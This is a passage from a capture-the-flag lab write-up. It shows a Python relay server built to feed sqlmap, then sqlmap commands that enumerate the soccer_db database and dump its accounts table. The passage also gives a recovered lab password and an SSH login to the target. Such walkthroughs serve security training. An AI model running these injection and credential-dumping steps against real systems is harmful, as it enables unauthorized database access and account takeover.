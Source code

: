 ```python
        httpd = _TCPServer(host_port, CustomHandler)
        httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
        middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
        pass
```

- Let's launch our server `python3 server.py`
- And then we can just launch sqlmap `sqlmap -u "http://localhost:8081/?id=1" --batch --dbs`
- This way we could enumerate tables  
![tables](../.res/2022-12-23-13-40-10.png)
- Let's get more info on soccer_db first. We have a table accounts there, lets see what columns it has. `sqlmap -u "http://localhost:8081/?id=1" --batch --dbms=mysql -D soccer_db -T accounts --columns`  
![accounts](../.res/2022-12-23-13-51-21.png)  
- Seems to be what we are looking for, let's dump it `sqlmap -u "http://localhost:8081/?id=1" --batch --dbms=mysql -D soccer_db -T accounts --dump`
![password dump](../.res/2022-12-23-13-57-39.png)
- We get the user password `PlayerOftheMatch2022` and if we try it on ssh, it works!
- Let's connect and grab the root flag `ssh player@10.10.11.194`
